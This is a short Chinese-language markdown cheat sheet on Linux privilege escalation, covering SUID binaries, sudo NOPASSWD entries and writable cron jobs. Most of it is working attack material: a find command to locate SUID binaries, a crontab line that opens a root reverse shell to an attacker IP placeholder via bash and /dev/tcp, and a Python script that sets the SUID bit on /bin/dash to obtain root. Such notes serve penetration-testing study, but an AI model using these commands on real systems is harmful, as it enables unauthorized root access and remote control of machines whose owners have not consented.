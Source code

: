 1. suid提权
- 前提有suid权限
```
find / -user root -perm -4000 -print 2>/dev/null
```
查看有suid提权漏洞的文件，目前已知的可用来提权的linux可行性文件列表如下
```
Nmap
Vim
find
Bash
More
Less
Nano
cp
```
2. sudo提权
- 前提是sudo有suid权限，并且sudo -l里面拥有nopasswd
```
teehee
nmap
```


3. 定时任务提权
- 前提/etc/crontab拥有普通用户写入权限，或者使用sudo提权或者suid提权可以进行写入的进行写入

![](./i/1.png)

- 情况1

普通用户具有/etc/crontab的写入权限，直接写入root身份反弹bash
```
* * * * * root bash -i >& /dev/tcp/攻击机ip/端口 0>&1
```

- 情况2

普通用户不具有/etc/crontab的写入权限，但是定时任务里面的某个定时执行的文件具有root权限执行，比如
```
*/1 * * * * root /tmp/a.py
```

如果我们可以修改这个文件，那么就可以用来提权
```python
#!/usr/bin/env python
import os
import sys

try:
    os.system('chmod u+s /bin/dash')
except:
    sys.exit()
```
一分钟后就设置了/bin/dash的suid权限，运行完成后就获取了root权限